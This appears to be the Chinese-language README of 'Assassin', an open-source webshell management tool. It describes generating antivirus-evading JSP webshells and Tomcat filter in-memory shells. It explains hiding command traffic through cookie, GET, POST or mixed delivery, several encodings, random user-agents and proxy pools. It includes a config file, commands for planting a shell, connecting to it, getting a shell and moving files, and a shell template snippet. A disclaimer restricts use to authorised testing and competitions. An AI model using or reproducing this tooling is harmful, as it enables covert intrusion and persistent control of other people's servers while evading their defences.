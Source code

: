 # Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

自用工具开源互相学习，生成的webshell能够过目前主流杀毒软件(36x、腾x等，目前能过，后面可能很快就不行了，需要稍微变换webshell代码以再次免杀) 连接后交互的流量特征几乎没有，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒而且菜~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过主流杀软 36x、腾x等等(以后可能就不行了，需要稍加更改代码，webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端完成连接后发送payload十分精简

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式

![](assets/2021-11-23-14-26-25.png)

![](assets/2021-11-23-16-26-42.png)

![](assets/2021-11-23-16-47-25.png)


## 发送的payload流量示例

![](assets/2021-11-23-18-26-04.png)

cookie：
![](assets/2021-11-23-16-51-06.png)

post：
![](assets/2021-11-23-17-08-53.png)

mixed：
![](assets/2021-11-23-17-12-14.png)

get：
![](assets/2021-11-23-17-18-56.png)

除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数

![](assets/2021-11-23-19-52-59.png)

```help [command]``` 查看具体命令的帮助

![](assets/2021-11-23-19-53-56.png)

### 实例

用startup.bat或startup.sh启动

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置

![](assets/2021-11-23-20-00-26.png)

将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号
![](assets/2021-11-23-20-06-56.png)

```session 1```连接webshell

![](assets/2021-11-23-20-08-19.png)

看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```

![](assets/2021-11-23-20-25-16.png)

选择文件即可上传

```download ./test.txt```同理

![](assets/2021-11-23-20-27-15.png)

![](assets/2021-11-23-20-28-04.png)

### 编写webshell模板tamper

![](assets/2021-11-23-20-14-14.png)

第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板







